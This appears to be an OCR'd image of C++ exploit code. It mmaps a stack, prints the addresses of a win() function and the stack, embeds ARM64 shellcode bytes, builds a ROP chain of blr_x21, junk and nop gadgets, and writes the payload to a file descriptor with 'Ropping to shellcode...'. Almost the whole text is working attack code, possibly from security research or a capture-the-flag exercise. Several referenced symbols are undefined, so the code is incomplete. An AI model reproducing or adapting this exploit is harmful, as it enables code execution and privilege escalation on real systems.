 ```cpp
  uint64_t stack_size = 0x1000;  
  void *stack_base = mmap(NULL, stack_size, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS | MAP_STACK, -1, 0);  
  if(stack_base == MAP_FAILED) {  
    puts("[!] mmap failed!");  
    return -1;  
  }  
  void *stack_top = (void *)((uint64_t)stack_base + stack_size);
  printf("[+] Stack Pointer: %llx\n", (uint64_t)&stack_top);
  printf("[+] win() address: %llx\n", (uint64_t)&win);


  unsigned char shellcode[] = {  
    0xe0, 0x03, 0x1f, 0xaa, 0x02, 0x6d, 0x8c, 0xd2,  
    0x62, 0x01, 0xa0, 0xf2, 0x02, 0xf8, 0xdf, 0xf2,  
    0xe2, 0xff, 0xff, 0xf2, 0x40, 0x00, 0x3f, 0xd6,  
    0x84, 0xff, 0x8b, 0xd2, 0x64, 0x01, 0xa0, 0xf2,  
    0x04, 0xf8, 0xdf, 0xf2, 0xe4, 0xff, 0xff, 0xf2,  
    0x80, 0x00, 0x3f, 0xd6,  
    0x41, 0x41, 0x41, 0x41,  
  };  


  uint64_t *chain = (uint64_t *)&buf[1024];  
  *chain++ = (uint64_t)blr_x21;  
  *chain++ = (uint64_t)junk;  
  *chain++ = (uint64_t)junk;  
  *chain++ = (uint64_t)junk;  
  *chain++ = ((uint64_t)&win);  
  *chain++ = (uint64_t)((uint64_t)&stack_top);  
  *chain++ = (uint64_t)nop;  
  *chain++ = (uint64_t)nop;  
  *chain++ = (uint64_t)nop;  
  *chain++ = (uint64_t)nop;  
  *chain++ = (uint64_t)nop;  
  *chain++ = (uint64_t)nop;  
  *chain++ = (uint64_t)nop;  
  *chain++ = (uint64_t)nop;  
  *chain++ = (uint64_t)nop;  
  *chain++ = (uint64_t)nop;  
  *chain++ = (uint64_t)nop;  
  *chain++ = (uint64_t)nop;  
  *chain++ = (uint64_t)nop;  
  *chain++ = (uint64_t)nop;  
  *chain++ = (uint64_t)nop;  
  *chain++ = (uint64_t)nop;  
  *chain++ = (uint64_t)nop;  
  *chain++ = (uint64_t)nop;  

  memcpy(buf + 1216, shellcode, sizeof(shellcode));  
  puts("[+] Ropping to shellcode...");  
  write(fd, buf, 1024 + 1216 + sizeof(shellcode));  
  return 0;  
}  
  
int main() {  
  std::cout << "[+] Starting trigger...\n";  
  exploit();  
  return 0;  
}
```
